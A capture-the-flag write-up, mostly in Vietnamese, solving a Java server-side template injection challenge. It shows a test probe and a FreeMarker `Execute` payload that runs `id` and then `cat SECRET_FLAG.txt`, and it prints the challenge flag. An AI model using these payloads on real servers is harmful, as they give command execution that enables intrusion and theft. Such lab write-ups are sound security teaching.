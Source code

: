 # Java - Server-side Template Injection

30 Points

Statement: Exploit the vulnerability in order to retrieve the validation password in the file SECRET_FLAG.txt.

# Solution

Ta có form của challenge

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/2712ca98-5e65-4469-8687-4a41441e90f5)

Mình test chức năng của challenge. Vì bài này tên là java nên mình sẽ thử `${7*7}`

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/058acecb-d99f-4d89-8393-4a846af64794)

Tiếp theo mình sẽ thử payload này `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/56595721-c868-4ef8-bee1-4af87264a449)

Có cho ra kết quả nên ta có thể sử dụng payload này. Kế đó mình sẽ dùng lệnh cat để lấy flag trong file `SECRET_FLAG.txt` như đề bài có nhắc đến.

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat SECRET_FLAG.txt")}`

![image](https://github.com/Llam-a/Server-Side-Template-Injection/assets/115911041/e04334da-a5be-4096-958a-2b63484d85eb)

Flag: `B3wareOfT3mplat3Inj3ction`



